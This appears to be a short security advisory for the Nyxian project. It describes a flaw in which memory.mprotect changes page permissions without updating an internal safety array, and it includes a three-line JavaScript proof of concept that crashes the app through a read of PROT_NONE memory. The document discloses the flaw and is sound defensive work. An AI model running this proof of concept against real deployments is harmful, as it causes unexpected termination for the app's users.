 # VID 009: MapProtFail

### Description

A attacker could pass a permission change to `memory.mprotect(ptr, size, prot);` which will cause the change to happen but not on the safety array. When the attacker then does a unauthorized action on the allocated memory zone it can cause a unexpected app termination

(patch tommorow)

Introduced in: [`848604c`](https://github.com/ProjectNyxian/Nyxian/commit/848604caedbdae62e019d1fbbb185ffd13c8a50d)

fixed in: n/a

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// map the memory with read permissions
let ptr = memory.mmap(1024, PROT_READ, MAP_ANON | MAP_PRIVATE);

// change the permissions to none
memory.mprotect(ptr, 1024, PROT_NONE);

// now attempt to read, as its still marked as readable in the safety array it will attempt to read from this memory address and cause the crash because of a EXC_BAD_ACCESS
memory.mread8(ptr);
```